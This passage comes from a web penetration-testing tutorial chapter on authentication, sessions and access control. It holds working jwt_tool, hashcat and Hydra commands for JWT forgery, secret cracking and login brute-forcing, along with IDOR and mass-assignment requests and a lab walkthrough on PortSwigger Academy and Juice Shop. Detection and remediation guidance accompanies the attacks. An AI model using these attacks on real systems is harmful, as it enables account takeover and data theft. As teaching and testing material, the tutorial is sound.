  (HMAC, `HS256`) or a private key (RSA/ECDSA, `RS256`). This is the only thing
  stopping you from editing the payload and being believed.

Decode any token instantly:

```bash
echo 'eyJzdWIiOiJhbGljZSIsInJvbGUiOiJ1c2VyIn0' | base64 -d 2>/dev/null; echo
# -> {"sub":"alice","role":"user"}
```

### Tool from scratch: jwt_tool

`jwt_tool` is the standard JWT swiss-army knife — it decodes, tampers, tests known
attacks, and cracks HMAC secrets. Install it:

```bash
git clone https://github.com/ticarpi/jwt_tool
cd jwt_tool && pip3 install -r requirements.txt
python3 jwt_tool.py <token>          # decode + inspect
python3 jwt_tool.py <token> -M pb    # run the "playbook" of common attacks
```

The core JWT attacks you test on every token:



1. **`alg:none`.** The spec allows an `alg` of `none`, meaning "unsigned." If the server
   accepts it, set `alg` to `none`, edit the payload (`"role":"admin"`), and drop the
   signature entirely. A correctly configured server rejects `none` for authenticated
   tokens.

   ```bash
   python3 jwt_tool.py <token> -X a          # alg:none exploit, forge new token
   ```

2. **Weak HMAC secret (HS256 cracking).** If the token is `HS256`, its security rests
   entirely on the secret. If that secret is a dictionary word (`secret`, the app name,
   a default from a tutorial), crack it offline and then sign *any* token you want:

   ```bash
   python3 jwt_tool.py <token> -C -d /usr/share/wordlists/rockyou.txt
   # or with hashcat, mode 16500:
   hashcat -a 0 -m 16500 token.txt /usr/share/wordlists/rockyou.txt
   ```

   Once you have the secret, forge a token with `"role":"admin"` and a valid signature —
   the server cannot tell it from a legitimate one.

3. **Algorithm confusion (RS256 → HS256).** If the server uses `RS256` (asymmetric:
   verify with the *public* key), but its verification code is loose about the
   algorithm, you can switch the header to `HS256` and sign the token using the
   *public key as the HMAC secret*. The server, told it is HMAC, verifies with the
   public key it already trusts — and accepts your forgery. The public key is often
   literally published (`/jwks.json`, a TLS cert, or a `/.well-known/` endpoint).

   ```bash
   python3 jwt_tool.py <token> -X k -pk public.pem   # key-confusion attack
   ```

4. **`jku` / `jwk` header injection.** These header fields tell the server *where to get
   the verification key*. If the server fetches the key from an attacker-controlled URL
   (`jku`) or trusts an embedded key (`jwk`) without pinning, you supply your own key
   pair, sign with your private key, and the server verifies with your matching public
   key.

5. **`kid` injection.** The `kid` (key ID) header selects which key to use and is
   sometimes used to look up a file or database row. If it is concatenated into a path
   or a query, it may be vulnerable to path traversal (`kid: "../../dev/null"` → empty
   key → sign with empty secret) or SQL injection.

6. **Claim tampering when signature is not verified at all.** Astonishingly common in
   young APIs: the server decodes the JWT but never verifies the signature. Just edit
   `"role":"user"` to `"role":"admin"`, re-encode, and send. Always test this first — it
   is one edit in Burp.

### Worked JWT tamper in Burp

Burp's **JWT Editor** extension (BApp Store) adds a tab that decodes the token, lets you
edit claims in place, and re-signs (or strips the signature) with keys you supply. The
manual flow without it:

```bash
# 1. Decode the payload
echo 'eyJzdWIiOiJhbGljZSIsInJvbGUiOiJ1c2VyIn0' | base64 -d
#    {"sub":"alice","role":"user"}

# 2. Edit to escalate, re-encode (base64url, strip padding & translate +/ to -_)
echo -n '{"sub":"alice","role":"admin"}' | base64 | tr '+/' '-_' | tr -d '='

# 3. Reassemble header.payload.signature and send.
#    If the app doesn't verify signatures, the old/blank signature is accepted.
```

**Blue team usage:** JWTs should be validated with an *allowlist* of algorithms
(reject `none`, pin `RS256`), a strong secret or properly managed key, a checked `exp`,
and — for logout/revocation — a server-side denylist or short lifetimes, since a plain
JWT cannot otherwise be revoked before it expires.

## Part 11: OAuth 2.0 and SSO Abuse

Many apps delegate login to a third party — "Sign in with Google/GitHub/Okta" — using
**OAuth 2.0** (authorisation) usually wrapped in **OpenID Connect** (authentication).
Understanding the flow is prerequisite to attacking it. The common *authorization code*
flow:



The high-value test points:

- **`redirect_uri` validation.** If the provider or client accepts a `redirect_uri`
  that is not strictly allow-listed — a different host, an open-redirect on the real
  host, a path/subdomain/`@`-trick, or a loose prefix match — the authorization `code`
  (or token, in implicit flow) is delivered to an attacker-controlled URL. This is the
  classic OAuth account-takeover primitive.
- **Missing/ignored `state` parameter.** `state` is the CSRF defence for OAuth. If the
  client does not generate and verify a per-request `state`, an attacker can perform a
  **login CSRF** — forcing a victim to log in to the attacker's account (or linking the
  attacker's IdP identity to the victim's session).
- **`code` reuse / leakage.** Authorization codes should be single-use and short-lived.
  Test replaying a code, and check whether it leaks via `Referer` when the callback
  page loads third-party resources.
- **Implicit-flow token leakage.** The older implicit flow returns the token in the URL
  fragment — prone to leaking via history, `Referer`, and open redirects. Its presence
  is itself worth noting.
- **Account linking without verification.** If "link your Google account" trusts an
  email claim without verifying ownership, an attacker with a matching unverified email
  can attach their IdP identity to a victim account.
- **Scope and `id_token` validation.** For OIDC, the `id_token` is a JWT — everything in
  Part 10 applies. Check that the client validates its signature, `iss`, `aud`, and
  `exp`, and does not simply trust the `email`/`sub` claims.

**Bug-bounty note:** OAuth `redirect_uri` and `state` flaws are a recurring source of
full account-takeover reports precisely because the trust is spread across two systems
and each assumes the other checked. The PortSwigger Academy OAuth labs (Part 14) drill
each of these.

## Part 12: Access Control — IDOR / BOLA and Privilege Escalation

This is the part that pays the mortgage. Access-control bugs are where you take a
perfectly authenticated, perfectly session-managed request and simply ask for something
that is not yours — and the server hands it over. OWASP calls the API version **BOLA**
(Broken Object-Level Authorisation, API Security Top 10 #1); the classic web name is
**IDOR** (Insecure Direct Object Reference). Same bug: the app uses a client-supplied
identifier to fetch an object without checking that *this* user owns or may access *that*
object.

### Horizontal vs vertical



- **Horizontal** — access another user's data *at your own level*. Order 1001 → 1002,
  `?user_id=alice` → `?user_id=bob`, `/api/invoices/8841` → `/8842`.
- **Vertical** — gain a *higher* privilege: a normal user reaching an admin-only
  function, either by forced browsing to `/admin`, by flipping a `role`/`isAdmin`
  field, or by **mass assignment** (adding `"role":"admin"` to a profile-update body
  the server binds straight onto the model).

### The method: an authorisation matrix

The professional way to test access control is to build a small **authz matrix** —
enumerate every sensitive action/endpoint and every role, then verify each cell. For a
two-role app:

| Endpoint / Action | Anonymous | userA (owner) | userB (other user) | admin |
|---|---|---|---|---|
| `GET /api/orders/{A}` | 401 (want) | 200 ✓ | **403 (want) — test!** | 200 |
| `GET /api/orders/{B}` | 401 | **403 (want) — test!** | 200 ✓ | 200 |
| `POST /api/admin/users` | 401 | **403 (want) — test!** | 403 | 200 ✓ |
| `PATCH /api/users/{A}` role field | — | ignore role (want) | 403 | 200 |

Every bolded "test!" cell is a request you actually send and confirm the server denies.
The bug is any cell where the server *allows* what it should deny.

### Manual IDOR hunting workflow

1. As `userA`, exercise every feature that references an object by ID — view an order,
   download an invoice, open a message, load a profile. Note every request in Burp that
   contains an identifier: numeric IDs, UUIDs, usernames, filenames, base64 blobs,
   hashes.
2. Send a representative request to **Repeater**.
3. Swap the identifier for one belonging to `userB` (create real test data as `userB`
   first so you know a valid "other" ID).
4. Send it **with `userA`'s session**. If you get `userB`'s data back, that is an IDOR.
5. Escalate the test: try *removing* the session entirely (unauthenticated access), try
   changing the HTTP method (`GET` → `POST`/`PUT`/`DELETE` on the same object), and try
   the API version of a web route (`/orders/1002` → `/api/orders/1002`), which often
   lacks the UI's checks.

**Don't be fooled by non-sequential IDs.** UUIDs and hashes are *not* an access
control — they are only obscurity. If a UUID appears anywhere the current user can see
it (a listing endpoint, a referral link, an email, a `Location` header, a websocket
message), you can harvest valid IDs and the IDOR stands. Test with real, discoverable
identifiers, not just guessed sequential ones.

### Tool from scratch: Autorize

`Autorize` is a Burp extension (BApp Store) that automates the entire "replay every
request with a lower-privilege session" test — it is the single biggest time-saver for
access-control work. You give it the *low-privilege* user's session token; then you
browse the app as the *high-privilege* user, and for every request Autorize
automatically replays it stripped down to the low-priv session (and again with no
session) and colour-codes the result:

- **Bypassed!** (red) — the low-priv/no-auth replay got the same successful response →
  a real access-control failure.
- **Enforced!** (green) — the replay was correctly denied.
- **Is enforced??? (please configure)** (amber) — ambiguous; verify by hand.

Setup:

1. Log in as the **high-privilege** user in your browser (traffic flows through Burp).
2. Log in as the **low-privilege** user separately; copy that session's `Cookie` (or
   `Authorization`) header.
3. In Autorize, paste the low-priv header into the **"insert the low-privileged
   user's headers"** box, and toggle it **on**.
4. Browse the app normally as the high-priv user. Autorize builds a live table:
   original request | modified (low-priv) status | unauthenticated status | verdict.

A realistic Autorize table:

```
# | URL                          | Orig | Modified(low) | Unauth | Authz status
--+------------------------------+------+---------------+--------+---------------
1 | GET /api/admin/users         | 200  | 403           | 401    | Enforced!
2 | GET /api/orders/8842         | 200  | 200           | 401    | Bypassed!   <-- IDOR
3 | POST /api/admin/promote      | 200  | 200           | 401    | Bypassed!   <-- vertical
4 | GET /api/profile             | 200  | 200           | 401    | Enforced! (own data)
```

Rows 2 and 3 are your findings: the low-priv user reads another user's order and hits an
admin-only promote endpoint. Row 4 is a false-positive-shaped-but-correct result (each
user legitimately reads their *own* profile) — which is exactly why Autorize surfaces
candidates and you confirm impact manually.

### Mass assignment / parameter tampering for vertical escalation

When a profile-update or registration endpoint binds the request body straight onto a
database model, adding fields the UI never shows can escalate you:

```http
PATCH /api/users/me HTTP/1.1
Cookie: session=<userA>
Content-Type: application/json

{"displayName":"Alice","role":"admin","isVerified":true,"credits":999999}
```

If the server updates `role` because it blindly bound the JSON, `userA` is now admin.
Test by adding plausible privileged fields you saw elsewhere (in an admin response, in
JS, in the API docs from Chapter 2's mapping) — `role`, `isAdmin`, `is_staff`,
`accountType`, `groupId`, `verified`, `balance`.

**Bug-bounty note:** IDOR/BOLA is perennially the highest-volume high-impact category on
the major platforms because it is invisible to scanners and lives in custom logic. When
you report one, demonstrate concrete impact (accessed another user's PII/orders),
include the exact request/response pair, and access the *minimum* data needed to prove
it.

## Part 13: The Full Worked Lab — Login to Account Takeover

Time to chain the pieces on a safe, legal target. This lab uses the **PortSwigger Web
Security Academy** (free, browser-based, explicitly built for this) and, for the
IDOR portion, **OWASP Juice Shop** (which Chapter 2 already mapped). Both are
intentionally vulnerable and lawful to attack. Fire up Burp, set the proxy, and work
through the phases.



### Phase 1 — Username enumeration (length oracle)

Target: the Academy lab *"Username enumeration via subtly different responses."* Send
the login POST to Intruder, Sniper on the username, and load a candidate list. Sort by
response length:

```
Payload      Status  Length
-------------------------------
ah           200     3105
al           200     3105
...
carlos       200     3117   <-- outlier: valid username
...
```

`carlos` is 12 bytes longer — the valid account. Enumeration done.

### Phase 2 — Password brute-force with the oracle

Now Intruder again, Sniper on the *password* this time, username fixed to `carlos`, load
the lab's candidate-password list. This time the success oracle is a **302 redirect** to
`/my-account` instead of a `200`:

```
Payload       Status  Length   Comment
------------------------------------------
123456        200     3210
password      200     3210
peanut        302     231      <-- redirect: valid password
qwerty        200     3210
```

`peanut` logs you in as `carlos`. In Repeater, confirm you receive the authenticated
session cookie.

### Phase 3 — Inspect the session / JWT

Look at what the login handed you. If it is an opaque cookie, run it through Sequencer
and check the flags (Part 8). If it is a JWT, decode it:

```bash
python3 jwt_tool.py eyJhbGciOiJSUzI1NiIs...   # inspect header + claims
```

Suppose the header says `"alg":"RS256"` and the payload `{"sub":"carlos"}`. Grab the
published public key (`/jwks.json`) and test **algorithm confusion**:

```bash
python3 jwt_tool.py <token> -X k -pk jwks-public.pem
# forge a token with "sub":"administrator", HS256-signed using the public key
```

### Phase 4 — IDOR against Juice Shop

Switch to Juice Shop. Log in as a normal user and open the basket; Burp shows:

```http
GET /rest/basket/6 HTTP/1.1
Cookie: token=<userA-jwt>
```

Change `6` to `1` (another user's basket) and resend with *your* session:

```http
GET /rest/basket/1 HTTP/1.1
Cookie: token=<userA-jwt>
```

If you receive another user's basket contents, that is a horizontal IDOR/BOLA. Confirm
with Autorize running in the background — it flags the `basket/{id}` endpoint as
**Bypassed!** across IDs.

### Phase 5 — Vertical escalation

Back on the Academy, target an admin-only action. Two paths, tested in order:

1. **Forced browsing:** as `carlos`, request `/admin` directly. If it renders, the app
   never checked role on that route.
2. **Mass assignment / JWT role tamper:** if the JWT carries `"role":"user"`, escalate
   it (via `alg:none`, cracked HMAC secret, or key confusion from Phase 3) to
   `"role":"admin"` and re-send. Access the admin panel; delete a test user to
   demonstrate impact (only in the lab).

### Phase 6 — Document

For each finding, capture the exact request/response pair, the affected accounts/data,
the severity, and a one-line remediation. That report structure is the actual
deliverable — the exploitation was the easy part.

## Part 14: Detection & Defense Angle

Every technique above leaves a signature. This consolidated section is what a blue team
uses to *catch* the offense in this chapter — and what you, as a tester, recommend in
the remediation section of your report. (Per the reference chapters, defense is the one
dimension that earns its own dedicated section rather than being scattered.)

**Detecting the attacks:**

| Attack | Log/telemetry signal | Detection logic |
|---|---|---|
| Username enumeration | bursts of failed logins across *many distinct usernames* from one source | rate + distinct-username threshold per IP/session |
| Brute-force (single account) | many failed logins on *one* account, short window | per-account failure counter → lockout + alert |
| Password spraying | *one or few* failures across *very many* accounts | low-per-account, high-distinct-account pattern; correlate by source IP/ASN |
| Credential stuffing | high login volume, many accounts, high success-after-fail ratio, botnet IPs | velocity + IP reputation + impossible-travel |
| Reset-token abuse | many `forgot-password` requests, mismatched `Host`/`X-Forwarded-Host` | alert on host-header anomalies; pin the reset base URL |
| MFA brute-force | many OTP submissions per pending session | cap attempts, invalidate pending session, alert |
| JWT tampering | signature-verification failures, `alg:none`, unexpected `kid`/`jku` | log and alert on every verification failure; never fall through to "accept" |
| OAuth abuse | callbacks with unexpected `redirect_uri`, missing/replayed `state` | validate + log redirect_uri and state server-side |
| IDOR/BOLA | one session accessing many distinct object IDs it never "listed" | per-user object-access anomaly; sequential-ID sweeps |

**Preventing them (your remediation recommendations):**

- **Authentication:** uniform responses (no enumeration oracle), constant-time
  credential checks, strong password policy + breach-password screening, rate limiting
  *and* account lockout with alerting, CAPTCHA/step-up on anomalies, and MFA that the
  server enforces on every sensitive action.
- **Password reset:** cryptographically random, single-use, short-lived tokens; never
  build the reset URL from a client-controlled `Host`; validate the recipient
  server-side; treat reset as a full auth event.
- **Sessions:** rotate the session ID on login and on privilege change; set
  `HttpOnly`, `Secure`, `SameSite`; scope `Domain`/`Path` tightly; enforce idle and
  absolute timeouts; invalidate server-side on logout and on password change; use ≥128
  bits of CSPRNG entropy for opaque IDs.
- **JWT:** allowlist algorithms (reject `none`, pin the intended one), verify the
  signature *always* and *first*, use a strong managed secret/key, validate `exp`/`nbf`,
  pin `jku`/`jwk`/`kid` sources, and keep lifetimes short with a revocation list for
  logout.
- **OAuth/SSO:** strict exact-match `redirect_uri` allow-listing, a mandatory verified
  `state`, single-use short-lived codes, and full `id_token` validation
  (signature/`iss`/`aud`/`exp`) before trusting any claim.
- **Access control:** deny by default; enforce object-level authorisation on *every*
  request server-side using the *session's* identity, never a client-supplied ID or
  role; centralise the checks; use unguessable references *in addition to* (never
  instead of) real authorisation; reject unknown/privileged fields on binding (guard
  against mass assignment).

**IR use case:** when an account-takeover is reported, the reset-token logs, the
session-issuance/rotation logs, and the object-access logs above are exactly what an
incident responder pulls to reconstruct how the attacker got in and what they touched —
which is why the defensive recommendation is always "log these events richly," not just
"block them."

## Final Revision / Summary

- **Three boundaries, tested independently.** Authentication (who are you), session
  management (prove it each request), authorisation (allowed to do this) each fail in
  their own way; walk each gate and ask "what if I lie here?"
- **Enumerate before you brute-force.** Message, status, length and timing differences
  turn a login into a user directory. The length oracle is the one beginners miss.
- **Pick the right password attack.** Brute-force and dictionary are loud on one
  account; *spraying* (one common password across many users) defeats lockout and is
  the real-world winner. Try default/leaked creds *first*.
- **Password reset is a second login.** Predictable tokens, host-header poisoning,
  recipient tampering, reusable/never-expiring tokens, and weak recovery questions all
  yield account takeover.
- **MFA is often a bolt-on.** Response manipulation, step-skipping/forced browsing,
  unthrottled OTP brute-force, code reuse, and backup-code weakness bypass it.
- **Sessions live and die by lifecycle and randomness.** Missing cookie flags, weak
  entropy, session fixation (no rotation on login), and sessions that survive logout or
  password change are all real, testable findings.
- **JWTs carry their own trust — so tamper with it.** Test `alg:none`, weak HMAC
  secrets, RS256→HS256 confusion, `jku`/`jwk`/`kid` injection, and (first of all) the
  server that never verifies the signature at all.
- **OAuth spreads trust across two systems.** `redirect_uri` and `state` flaws are the
  classic account-takeover primitives; treat the OIDC `id_token` as a JWT.
- **Access control is where the money is.** IDOR/BOLA (swap the object ID) and
  privilege escalation (forced browsing, role tampering, mass assignment) dominate
  bug-bounty impact. Test with two same-level accounts + roles, build an authz matrix,
  and let Autorize replay everything at lower privilege.
- **Everything leaves a signature.** Each attack maps to a detection and a fix — that
  mapping *is* your remediation section.

## Cheat Sheet / Quick Reference

**Enumeration & brute-force**

```bash
# Burp Intruder: Sniper on username, sort by Length for the enumeration oracle.
# Hydra web-form brute-force (throttled, stop on first hit, verbose):
hydra -L users.txt -P rockyou.txt target.example http-post-form \
  "/login:username=^USER^&password=^PASS^:Invalid username or password" -t 4 -f -V

# Success-string variant:
#   "...:S=Location: /dashboard"
```

**Password spraying logic:** loop passwords on the *outside*, users on the inside — one
attempt per account per round to stay under lockout.

**Session checks**

```
[ ] Session ID rotates on login? (else: fixation)
[ ] HttpOnly + Secure + SameSite set on auth cookie?
[ ] Domain/Path scoped tightly?
[ ] Idle + absolute timeout enforced?
[ ] Session dies server-side on logout AND on password change?
[ ] Token entropy > 64 bits (Burp Sequencer)? Not base64 of user:id:ts?
```

**JWT**

```bash
python3 jwt_tool.py <token>              # decode
python3 jwt_tool.py <token> -M pb        # run attack playbook
python3 jwt_tool.py <token> -X a         # alg:none forge
python3 jwt_tool.py <token> -C -d rockyou.txt   # crack HS256 secret
python3 jwt_tool.py <token> -X k -pk pub.pem     # RS256->HS256 confusion
hashcat -a 0 -m 16500 token.txt rockyou.txt      # crack HMAC secret (hashcat)
# First test of all: edit payload, don't re-sign — does the server even verify?
```

**Access control**

```
[ ] Two same-level accounts provisioned (userA, userB)? Roles too?
[ ] Every request with an ID replayed with the OTHER user's session?
[ ] Same request replayed with NO session?
[ ] Method swapped (GET->POST/PUT/DELETE)?
[ ] Web route retried as API route (/x/1 -> /api/x/1)?
[ ] Autorize running: watch for "Bypassed!"
[ ] Mass assignment: add role/isAdmin/accountType to update bodies?
```

**Reset, MFA & OAuth**

```
[ ] Reset token predictable / sequential / a hash of known input?
[ ] Reset link built from Host / X-Forwarded-Host? (poisoning)
[ ] Duplicate/extra email param redirects the token?
[ ] Reset token single-use and short-lived?
[ ] OTP endpoint rate-limited + attempt-capped? Code single-use, bound to session?
[ ] MFA step skippable by forced browsing to /dashboard?
[ ] OAuth redirect_uri strictly allow-listed? state present + verified?
```

## Common Pitfalls

- **Testing only one account.** Access control is inherently comparative — without a
  second user and a lower/higher role you *cannot* see the boundary. Provision accounts
  first.
- **Trusting UUIDs as security.** Non-sequential IDs are obscurity, not authorisation.
  If the ID is discoverable anywhere the user can see it, the IDOR still stands.
- **Judging a login by the browser, not the bytes.** Two responses can look identical
  on screen and differ by 12 bytes — the enumeration oracle lives in `Content-Length`,
  not the rendered page.
- **Forgetting the API twin.** The web route may enforce access control while the
  `/api/` route that backs it does not. Always test both.
- **Only brute-forcing, never spraying.** Lockout stops brute-force but not spraying;
  skipping the spray misses the bug the defence was blind to.
- **Not testing logout/password-change invalidation.** These are two-minute Repeater
  tests that hit on a surprising fraction of apps and are easy to forget.
- **Signature tunnel vision on JWTs.** Test the "server never verifies the signature"
  case *first* — it is one edit and it is shockingly common — before reaching for
  cracking or key confusion.
- **Over-collecting data on an IDOR.** Prove impact with one other record, redacted.
  Dumping a database to "demonstrate severity" is an ethics and legal failure.

## Practice Labs & Resources

Everything below trains *this* chapter's skills specifically:

- **PortSwigger Web Security Academy — Authentication** (free): the full set of
  username-enumeration (subtly different responses, response timing), password
  brute-force with rate-limit bypass, 2FA/MFA bypass and broken brute-force protection,
  and password-reset (host-header poisoning, token abuse) labs. The single best
  structured practice for Parts 3–7.
- **PortSwigger Academy — Access Control & IDOR:** the horizontal/vertical privilege
  escalation, IDOR, and multi-step-process access-control labs cover Part 12 end to
  end.
- **PortSwigger Academy — JWT:** dedicated labs for `alg:none`, weak HMAC secret,
  JWK/JKU header injection, `kid` path traversal, and algorithm confusion — Part 10 in
  full, ideal alongside `jwt_tool`.
- **PortSwigger Academy — OAuth 2.0:** the `redirect_uri` and `state` account-takeover
  and OpenID labs cover Part 11.
- **OWASP Juice Shop:** the basket/feedback/order IDOR challenges and the admin-section
  and JWT challenges — a full-app version of the lab in Part 13; run it locally with
  `docker run -p 3000:3000 bkimminich/juice-shop`.
- **HackTheBox / TryHackMe:** THM's *Authentication Bypass*, *IDOR*, and *JWT* rooms;
  HTB web boxes that hinge on default creds, IDOR, or JWT forgery for the foothold.
- **HackerOne / Bugcrowd disclosed reports:** filter by "IDOR", "broken access control",
  "improper authentication", and "JWT" to read how real payouts were found and written
  up — the single best way to calibrate impact and report quality.

In the next chapter we move from testing these boundaries in isolation to **chaining
web vulnerabilities into a full compromise** — taking a single web bug and turning it,
step by step, into a shell on the underlying server, the way a real engagement's
findings connect into one attack narrative.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/pentest-web/03-authentication-session-and-access-control-testing-in-practice), with comments and the latest edits.*
